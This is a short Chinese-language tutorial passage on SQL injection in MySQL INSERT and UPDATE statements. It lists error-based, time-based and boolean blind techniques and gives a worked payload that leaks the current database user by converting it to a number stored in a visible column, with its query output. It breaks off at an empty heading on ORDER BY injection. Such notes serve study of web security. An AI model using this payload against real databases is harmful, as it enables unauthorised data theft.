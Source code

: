 

## update 和 insert 注入

insert和update一般使用报错注入

如果没有错误回显，insert可以使用延时注入：

update可以使用bool盲注和延时盲注。

还有如果存在insert或者update,更新后的数据是可见的话,那么利用mysql中字符串在与数字进行运算的时候当作是`0`进行运算

insert 语法

```sql
insert into table_name(column1,column2)values(value1,value2); 
```

update 语法

```
update table_name set column='' where column='';
```

```sql
select ''+1;

mysql> select ''+1;
+------+
| ''+1 |
+------+
|    1 |
+------+
1 row in set (0.00 sec)
```

```sql
mysql> update users set pw=''+conv(hex(substr(user(),1,6)),16,10) where username='test';
Query OK, 1 row affected (0.00 sec)
Rows matched: 1  Changed: 1  Warnings: 0

mysql> select * from test;
Empty set (0.00 sec)

mysql> select * from users;;
+----------+-----------------+
| username | pw              |
+----------+-----------------+
| admin    | 1               |
| test     | 125822936825964 |
+----------+-----------------+
2 rows in set (0.00 sec)
```



## order by 后的注入
